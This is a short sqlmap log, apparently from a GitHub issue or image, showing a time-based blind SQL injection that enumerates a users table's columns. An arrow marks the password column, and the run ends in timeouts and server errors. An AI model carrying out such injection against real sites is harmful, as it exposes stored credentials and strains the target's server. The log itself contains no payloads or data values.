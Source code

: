 ```bash
[23:32:10] [INFO] retrieved: varchar(255)             
[23:32:10] [INFO] retrieving the length of query output
[23:32:10] [INFO] retrieved: 17
[23:32:54] [INFO] retrieved: email_verified_at             
[23:32:54] [INFO] retrieving the length of query output
[23:32:54] [INFO] retrieved: 9
[23:33:21] [INFO] retrieved: timestamp           
[23:33:21] [INFO] retrieving the length of query output
[23:33:21] [INFO] retrieved: 2
[23:33:42] [INFO] retrieved: id           
[23:33:42] [INFO] retrieving the length of query output
[23:33:42] [INFO] retrieved: 15
[23:34:15] [INFO] retrieved: bigint unsigned             
[23:34:16] [INFO] retrieving the length of query output
[23:34:15] [INFO] retrieved: 4
[23:34:38] [INFO] retrieved: name           
[23:34:38] [INFO] retrieving the length of query output
[23:34:38] [INFO] retrieved: 12
[23:35:37] [INFO] retrieved: varchar(255)             
[23:35:37] [INFO] retrieving the length of query output
[23:35:37] [INFO] retrieved: 8
[23:36:10] [INFO] retrieved: password           <<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<
[23:36:10] [INFO] retrieving the length of query output
[23:36:10] [INFO] retrieved: 12
[23:37:11] [INFO] retrieved: varchar(255)             
[23:37:11] [INFO] retrieving the length of query output
[23:37:11] [INFO] retrieved: 14
[23:37:20] [INFO] retrieved: ______________
[23:38:06] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[23:38:06] [WARNING] if the problem persists please try to lower the number of used threads (option '--threads')
[23:38:06] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[23:38:06] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[23:38:06] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[23:38:06] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[23:38:06] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[23:38:06] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[23:38:06] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[23:38:06] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[23:38:06] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
there seems to be a continuous problem with connection to the target. Are you sure that you want to continue? [y/N] N

multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[23:39:07] [INFO] retrieved: 
[23:39:07] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[23:39:07] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[23:39:37] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 477 times
```